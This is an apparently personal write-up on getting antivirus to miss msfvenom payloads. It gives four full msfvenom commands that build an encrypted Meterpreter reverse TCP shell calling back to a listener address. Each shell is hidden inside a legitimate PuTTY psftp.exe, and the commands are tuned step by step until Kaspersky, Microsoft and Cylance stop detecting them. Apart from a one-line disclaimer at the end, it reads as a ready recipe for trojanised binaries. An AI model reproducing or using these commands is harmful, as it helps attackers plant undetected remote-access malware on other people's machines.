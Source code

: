 # Shellcoding - Modern AV Evasion
I'm unsure if it's my luck or not but I have noticed recently that my simple techniques of shellcoding with MSFVenom has been getting caught by anti-viruses. 

**PoC**
https://www.virustotal.com/#/file-analysis/M2ZkYjljNTQ3NjYyYjM1M2YyMjNjMjhiYjA5ZWZjZTg6MTU1MDcxNzE5OA==

I wanted to do a quick write up of simple methods that I use for simple evasion. 

# Keep it Simple Stupid (KISS) Method

I always try to keep my shellcoding simple; custom shellcoding is always wonderful but if you know you're environment this will help a ton.

**Kali Toolkit**
Msfvenom - FUD exe

**Target Enviroment**
Windows 10 x64
*Kaspersky*
*UAC*
Up-to-date databases

psftp.exe
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

## Challenge: Simple Shellcode AV Evasion
Shellcode #1 

Payload used: 
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.2.28 LPORT=8443 --arch x64 --platform windows --encoder x64/xor_dynamic --encrypt-iv --encrypt xor --encrypt-key neoncat --iterations 20 --timeout 14 -x psftp.exe -f exe > neoncat.exe

**PoC**
https://www.virustotal.com/#/file/0790a58b9f9871abb470af7adc56b9f73adcc6276af984c538b949434ae3f389/

** Notes
Major improvement, but two things concern me. 

**Challenge**
1. ~~Kaspersky is bypassed~~ 
2. **Microsoft** detects the payload
3. Cylance detects payload as well (I feel like they toot their horn too much about their anti-virus and AI detection).

## Attempt #2

Shellcode #2
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.2.28 LPORT=8443 --arch x64 --platform windows --encoder x64/xor --encrypt-iv --encrypt xor --encrypt-key neoncatkey --iterations 24 --timeout 18 -x psftp.exe -f exe > neoncat1.exe

 - Changed encoder to **x64/xor**
 - Encryption key changed to neoncatkey
 - iterations upped four more and timeout increased by four

**PoC**
https://www.virustotal.com/#/file/4310f8a8207b636fde35946966dd6d55e302e89031e07e7071d17b7b51c863fc/

**15/66** caught the EXE.
Now we know our entry point, **x64/xor_dynamic** will be our chosen encoder.

## Attempt #3

Payload:
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.2.28 LPORT=8443 --arch x64 --platform windows --encoder x64/xor_dynamic --encrypt-iv --encrypt rc4 --encrypt-key neoncatkeysignature --iterations 60 --timeout 10 -b '\x00' -n 22 -x psftp.exe -f exe > neoncat1.exe 

~~Kaspersky Bybass~~
~~Microsoft Bypass~~
Cylance didn't scan the file, oddly.

Take away, cleaning up the code can help a bit, so generic removing of 1x null byte and swapping encryption method to rc4 has helped. Upping encoding, and adding a NOP slide seemed to have provided way better results.

**This payload would be the winner**

**PoC**
https://www.virustotal.com/#/file/cb413a14ce6b504c54df7a0b6b705ddc80001fc346b48ea667b81645d8a7c0c6

## Beating Cylance Challenge with MSFVENOM
This one was a fun one, but took super long to encrypt.  I added a very random nope slide, and added additional random null bytes.

payload:
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.2.28 LPORT=8443 --arch x64 --platform windows --encoder x64/xor_dynamic --encrypt-iv --encrypt rc4 --encrypt-key neoncatkeysignaturekey --iterations 135 --timeout 30 -b '\x00\0a\0b' -n 240 -x psftp.exe -f exe > neoncatwinners.exe


**PoC**
https://www.virustotal.com/#/file/2a11bc26476ab122b5a97084cd129180a8445793d5d8e0f41c3dd11803aaad48


## Take aways

Understand that encoding and encryption is your best friend, but you need to make custom shellcode and also tinker with the payload for your evasion to increase.

**Do not use this for illegal activity, you've been warned.
If you want to hack, I highly suggest checking out Hack the Box.**
